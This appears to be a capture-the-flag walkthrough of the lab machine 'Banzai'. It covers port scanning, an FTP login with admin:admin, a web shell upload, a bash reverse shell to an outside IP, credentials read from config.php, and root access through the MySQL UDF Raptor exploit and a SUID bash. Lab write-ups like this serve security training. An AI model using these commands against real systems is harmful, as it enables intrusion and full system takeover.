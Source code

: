 # Banzai

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.160.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:04 +08
Nmap scan report for 192.168.160.56
Host is up (0.17s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
25/tcp   open   smtp
5432/tcp open   postgresql
8080/tcp open   http-proxy
8295/tcp open   unknown
```

### FTP Weak Creds --> RCE

The FTP service has weak credentials of `admin:admin`:

```
$ ftp 192.168.160.56
Connected to 192.168.160.56.
220 (vsFTPd 3.0.3)
Name (192.168.160.56:kali): admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     0            4096 May 26  2020 contactform
drwxr-xr-x    2 1001     0            4096 May 26  2020 css
drwxr-xr-x    3 1001     0            4096 May 26  2020 img
-rw-r--r--    1 1001     0           23364 May 27  2020 index.php
drwxr-xr-x    2 1001     0            4096 May 26  2020 js
drwxr-xr-x   11 1001     0            4096 May 26  2020 lib
```

Within it, there seem to be web application folders. Since `index.php` is present, I placed `cmd.php` shell and tested it with the web service runnign on port 8080 and port 8295:

```
$ curl -G --data-urlencode 'cmd=id' http://192.168.160.56:8295/cmd.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We now have RCE, and we can easily get a reverse shell.

{% code overflow="wrap" %}
```
$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/192.168.45.191/21 0>&1"' http://192.168.160.56:8295/cmd.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MySQL Raptor --> Root

Within the machine, we find that MySQL is listening on port 3306:

```
www-data@banzai:/home/banzai$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::5432                 :::*                    LISTEN      -                   
tcp6       0      0 :::25                   :::*                    LISTEN      -                   
tcp6       0      0 :::8295                 :::*                    LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      - 
```

When checking which user was running it, I found that it was the `root` user:

{% code overflow="wrap" %}
```
www-data@banzai:/home/banzai$ ps -elf | grep mysql
5 S root       799     1  0  80   0 - 280746 -     00:01 ?        00:00:00 /usr/sbin/mysqld --daemonize --pid-file=/var/run/mysqld/mysqld.pid
```
{% endcode %}

Conveniently, MySQL creds were also present within the machine:

```
www-data@banzai:/var/www$ cat config.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
?>

www-data@banzai:/var/www$ mysql -u root -pEscalateRaftHubris123
mysql> select @@version;
+-----------+
| @@version |
+-----------+
| 5.7.30    |
+-----------+
1 row in set (0.00 sec)
```

I wanted to use the UDF Raptor exploit, but we first need to find the Plugins directory and whether there are any protections over the files:

```
mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.01 sec)

mysql> SHOW VARIABLES LIKE 'plugin_dir';
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)
```

The above means that it is vulnerable!

{% embed url="https://www.exploit-db.com/exploits/1518" %}

This method exploits the access that the `root` user has over the system using MySQL, which allows for malicious shared objects to be loaded and gives an attacker RCE as `root` using the MySQL instance.&#x20;

First, compile the exploit accordingly on the machine itself:

```bash
gcc -g -c 1518.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so 1518.o -lc
chmod 777 raptor_udf2.so
```

Then, transfer the shared object to the machine and run the following commands in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
```

Afterwards, we can just execute a command as `root`:

```
mysql> select do_system('chmod u+s /bin/bash');
+----------------------------------+
| do_system('chmod u+s /bin/bash') |
+----------------------------------+
|                                0 |
+----------------------------------+
1 row in set (0.00 sec
```

We can then easily get a `root` shell:

![](<../../../.gitbook/assets/image (22).png>)
